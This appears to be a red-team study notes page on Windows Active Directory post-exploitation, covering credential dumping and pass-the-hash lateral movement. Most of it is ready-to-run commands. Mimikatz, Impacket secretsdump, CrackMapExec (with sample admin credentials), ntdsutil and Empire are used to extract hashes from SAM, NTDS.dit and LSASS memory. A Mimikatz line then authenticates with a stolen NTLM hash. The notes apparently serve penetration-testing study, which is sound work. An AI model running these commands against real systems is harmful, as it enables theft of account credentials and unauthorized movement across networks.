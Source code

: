 - After compromising a domain user on the network, the next step is to gather all usernames, hashes, sensitive info., and anything that helps us pivot to compromise other machines within the network.
- This will trigger a lot of noise and will trip off alerts if we are on a stealthy red teaming engagement.


## How to steal hashes of users after getting a foothold?
1. DSync attacks
2. Extracting hashes from NTDS.dit
3. Another method is dumping lsass.exe process which stores hashes for users with active sessions to the computer.

[Credential Dumping using SAM](https://www.hackingarticles.in/credential-dumping-sam/)
```Mimikatz Way
privilege::debug
token::elevate
lsadump::sam
```
Impacket Way of dumping SAM
```Impacket
./secretsdump.py -sam /root/Desktop/sam -system /root/Desktop/system LOCAL
```
Using crackmapexec
```Crackmapexec
crackmapexec smb 192.168.1.105 -u 'Administrator' -p 'Ignite@987' --sam
```

[Dumping NTDS.dit](https://www.hackingarticles.in/credential-dumping-ntds-dit/) and [Vault Notes](obsidian://open?vault=THM%20Networks&file=Knowledge%20Base%2FPass-The-Hash%2FWhat%20is%20NTDS-dit)
```Crackmapexec
crackmapexec smb 192.168.1.105 -u 'Administrator' -p 'Ignite@987' --ntds drsuapi
```

```Powershell
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"

#After this we get the output as hive files which we then transfer back to our local machine

./secretsdump.py -ntds /root/ntds.dit -system /root/SYSTEM LOCAL
#All we need is to provide the path of the SYSTEM hive file and the NTDS.dit file and we are good to go. secretsdump will extract the hashes for us
```

[Dumping LSASS](https://www.hackingarticles.in/credential-dumping-local-security-authority-lsalsass-exe/)
```Task_Manager
In your local machine (target) and open the task manager, navigate to processes for exploring running process of lsass.exe and make a right-click to explore its snippet.  Choose “Create Dump File” option which will dump the stored credential.
```
- After saving the dump file from task manager, use mimikatz to get data out of the `.dmp` file.
```mimikatz
privilege::debug
sekurlsa::minidump C:\Users\raj\AppData\Local\Temp\lsass.DMP
sekurlsa::logonpasswords
```
Empire way
```powershell_empire
usemodule credentials/mimikatz/lsadump
execute
```
Crackmapexec`
```crackmapexec
crackmapexec smb 192.168.1.105 -u 'Administrator' -p 'Ignite@987' --lsa
```
Tools which can be used for getting hashes
1. Mimikatz
![[Pasted image 20221010152506.png]]


#### There are 2 techniques used for lateral movement for impersonating valid user accounts or service account using hashes
1. `Pass the hash attack`
2. `Over Pass the hash attack`


## 1. Pass-The-Hash - Local Admin rights required
- This is the initial attack where an attacker uses the dumped hashes to perform a valid NTLM authentication without accessing cleartext passwords and see if the compromised user can access other resources or systems on the network.
- So here the attacker impersonates the user from one application to another, they often engage in hash harvesting throughout the system which can be used to access more areas of the network, add account privileges, target a privileged account and set up backdoors and other gateways to enable future access.


- After getting the hashes, now we need to authentication with the stolen password hash using Pass The Hash technique.

Using mimikatz, pass the hash can be conducted by the following command
```
mimikatz sekurlsa::pth /user:<compromised user> /domain:<THROWBACK.local /ntlm:<hash>
```
- Instead of `/ntlm`, we can also use `/aes128` or `/aes256` hash option in Mimikatz




### Another ways to pass the hash
[Blog](https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/)
